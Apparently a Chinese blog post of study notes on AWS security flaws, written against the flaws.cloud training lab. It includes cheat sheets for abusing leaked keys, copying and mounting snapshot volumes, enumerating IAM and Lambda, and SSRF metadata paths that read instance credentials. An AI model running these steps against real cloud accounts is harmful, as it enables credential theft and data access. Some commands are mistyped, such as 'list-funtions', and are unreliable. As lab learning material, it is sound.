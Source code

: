 ```yaml
---
title: 'AWS 常见安全问题总结（一）'
date: 2024-03-24 20:18:36
tags: [云安全,学习笔记]
published: true
hideInList: false
feature: 
isTop: false
---
```



公开靶场:http://flaws.cloud/

## S3常见的安全问题

### 安全问题概括

概括如下：

1. s3桶名为全局变量，默认是aws上任意两个用户不能有重名s3桶变量名。如一域名负载在s3，则可以通过 `<s3-name>.<hostname>` 访问
2. S3配置IAM下， `Everyone` 意味着所有互联网上所有人。而不是，自己aws账户下的所有人，此外还有 `Any Authenticated AWS User` ，意味着所有有aws账户的人。后者web页面不支持，但是仍然可以通过SDK和第三方工具配置。

### 命令cheatsheet

1. aws同步下载文件到本地

```bash
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

1. 配置新的access_key 和 secret_access_key (以靶场flaws的level3为例子）

```bash
aws configure --profile flawslevel3
```

查看对应的profile下的资产内容

```bash
 aws s3 ls --profile flawslevel3
```

## EC2常见安全问题

常见概念：

- STS(Security Token Service) ：控制不同aws的安全控制
    - GetCallerIdentity: 显示账户可被控制的api **这个操作不需要任何权限**，即使管理员将拒绝访问：  `aws sts get-caller-identity --profile flawslevel3`
- snapshot 快照：快照是 Amazon 特有的东西，可让您在帐户之间传输卷上的数据。它们是从卷（volume）创建的“只读”备份
- aws_session_token： 除了`access_key` 和 `secret_access_key` 会泄漏外，也有token泄漏的场景。需要一并加入到~/.aws/credentials下，添加 `aws_session_token = ..`

### 安全问题概述：

1. 泄漏 `access_key` 和 `secret_access_key`, 利用方式，通过aws cli进一步获取更多信息和提权。
2. 快照记录了volume的信息，并且可以绕过ec2密码，来利用快照访问ec2示例。这就导致了黑客可以利用快照来获取volume信息，并结合aws创建volumn的权限（`createVolumePermission`） 将受害者volume挂载到攻击者的EC2示例上（需要确保region一致）。从而获取到ec2上的内容。（需要结合第1点来利用）
3. ssrf漏洞，导致可以利用 `169.254.169.254` 获取meta-data。（AWS在IMDSv2下，设立了特定的header，但IMDSv2并非默认强制）关于IMDSv1的问题看这篇[文章](https://kishoreramk.medium.com/securing-aws-understanding-ec2-imds-vulnerabilities-and-learning-from-the-capital-one-breach-6f753e06cd66)
    1. 169.254.169.254/latest/meta-data/iam/security-credentials/flaws
    2. 169.254.169.254/latest/meta-data/iam/info
    3. 169.254.169.254/latest/meta-data/iam/
4. `SecurityAudit` 权限

### cheatsheet

1. 显示全部STS（Security Token Service)

```bash
aws sts get-caller-identity --profile flawslevel3 
```

1. 显示ec2实例密钥对（需要提前profile配好region）

```bash
aws  --profile flawslevel3 ec2  describe-key-pairs
```

1. 检查属于用户id为指定id(这里为975426262029）下的快照

```bash
aws ec2 describe-snapshots --owner-id 975426262029 --profile flawslevel3
```

1. 查看指定快照id的 `createVolumePermission` 权限

```bash
aws ec2 describe-snapshot-attribute --snapshot-id snap-0b49342abd1bdcb89 --attribute createVolumePermission --profile flawslevel3
```

1. volume绑定ec2 instance & 进一步的利用

```bash
aws ec2 attach-volume —-volume-id vol-randnum --instance-id i-randnum —-device /dev/sdf —-region us-west-2
```

进一步利用所需命令补充（待后续优化笔记）：

Download the key pair and SSH into it. change the permission of downloaded pem file. `ssh -i YOUR_KEY.pem ubuntu@ec2-54-191-240-80.us-west-2.compute.amazonaws.com`

First list information about all available block devices using `lsblk.` `xvda1` is our available volume.

view drive information: `sudo file -s /dev/xvdf1`

Mount drive: `sudo mount /dev/xvdf1 /mnt`

## IAM常见安全问题

1. `SecurityAudit` 的policy能够帮助黑客去读区你或别的iam信息，然后寻找薄弱点

### cheatsheet

policy精确查询：

列出当前用户iam信息：创建时间，路径，unique id，arn

```bash
aws --profile level6 iam get-user
```

List attached-user-policies attached to user ( `{username}` 为get-user获取到的用户名）

```bash
aws --profile level6 iam list-attached-user-policies --username {username}
```

list-users

```bash
aws iam list-users --profile level6
```

list policies（这里会有arn的信息）

```bash
aws iam list-policies --profile level6
```

根据arn信息和version id，来查看具体policy信息 （这里arn-id为list-attached-user-policies命令下的）

```bash
aws --profile level6 iam get-policy-version --policy-arn {arn-id} --version-id v4
```

lambda的精确查询：

查找有哪些lambda 这一步可以获取到lambda函数名

```bash
aws --region us-west-2 --profile level6 list-funtions
```

查看对应函数名的policy信息

```bash
aws --region us-west-2 --profile level6 lambda get-policy --function-name {func-name}
```

这一步可以获取到rest-api-id ，然后访问 [`https://api-id.execute-api.us-east-2.amazonaws.com`](https://api-id.execute-api.us-east-2.amazonaws.com/) 

## 学习文章：

- [https://kishoreramk.medium.com/hacking-aws-flaws-cloud-walkthrough-2f13083b0b4d](https://kishoreramk.medium.com/hacking-aws-flaws-cloud-walkthrough-2f13083b0b4d)
- [https://kishoreramk.medium.com/securing-aws-understanding-ec2-imds-vulnerabilities-and-learning-from-the-capital-one-breach-6f753e06cd66](https://kishoreramk.medium.com/securing-aws-understanding-ec2-imds-vulnerabilities-and-learning-from-the-capital-one-breach-6f753e06cd66)